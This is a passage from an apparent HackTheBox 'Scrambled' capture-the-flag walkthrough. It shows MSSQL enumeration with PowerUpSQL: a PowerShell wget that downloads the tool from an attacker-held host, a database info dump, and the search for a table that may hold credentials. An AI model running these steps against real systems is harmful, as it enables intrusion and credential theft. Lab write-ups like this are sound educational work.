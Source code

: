 ## Dump MSSQL database

The sqlsvc hasn't got a user.txt flag, so we have to enumerate other user. We can dump the MSSQL datavase with [PowerUpSQL.ps1](https://github.com/NetSPI/PowerUpSQL) script. We can upload it on the machine with PowerShell's `wget`, it is an alias for `Invoke-WebRequest` command. We have to specify the address and the output file here.

```powershell
wget -Uri "http://<IP>:<PORT>/PowerUpSQL.ps1" -OutFile PowerUpSQL.ps1
```
It is a very powerful tool, you can use the [cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet) to get some useful commands.

Our next step is to import the tool and dump some info about the databases. We can do it with `Invoke-SQLDumpInfo` cmdlet.

```powershell
Invoke-SQLDumpInfo -Verbose -Instance DC1
```

It will give a big output in a csv format. Our scope is databases and their tables here. The databases info is stored in `<COMPUTER NAME>_Databases.csv` file.

![DC1 Databases info](/assets/hackthebox/scrambled/databases_info.png)

The database is `ScrambleHR`. Let's see the tables and their columns. They are located in `<COMPUTER NAME>_Database_columns.csv` file.

![Tables and columns](/assets/hackthebox/scrambled/tables_columns.png)

The most interesting here is `UserImport` table with possible credentials in. We can dump the table with `Get-SQLQuery` cmdlet.
